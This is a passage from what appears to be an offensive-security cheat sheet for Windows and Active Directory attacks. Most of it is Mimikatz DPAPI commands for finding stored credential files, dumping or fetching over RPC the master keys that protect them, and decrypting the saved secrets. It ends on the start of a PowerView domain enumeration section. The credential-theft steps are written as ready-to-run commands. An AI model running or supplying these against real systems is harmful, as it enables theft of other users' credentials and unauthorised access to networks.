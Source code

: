     # Find the IDs of protected secrets for a specific user
    dir C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials

    # Get information, including the used master key ID, from a specific secret (take the path from above)
    dpapi::cred /in:C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3

    # IF YOU ARE PRIVILEGED
    # Dump all master keys from the current system
    sekurlsa::dpapi

    # IF YOU ARE NOT PRIVILEGED (session as target user required)
    # Get the master key from the domain using RPC (the path contains the user SID, and then the ID of the masterkey identified in the previous step)
    dpapi::masterkey /rpc /in:C:\Users\[USERNAME]\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1124\dd89dddf-946b-4a80-9fd3-7f03ebd41ff4

    # Decrypt the secret using the retrieved master key
    # Alternatively, leave out /masterkey and add /unprotect to decrypt the secret using the cached master key (see above for caveats)
    dpapi::cred /in:C:\Users\[USERNAME]]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3 /masterkey:91721d8b1ec[...]e0f02c3e44deece5f318ad

    ```

## Domain Enumeration

### Domian Details

    ```powershell
    # Get domain details  
    Get-Domain
    Get-Domain -Domain techcorp.local
    Get-DomainSID
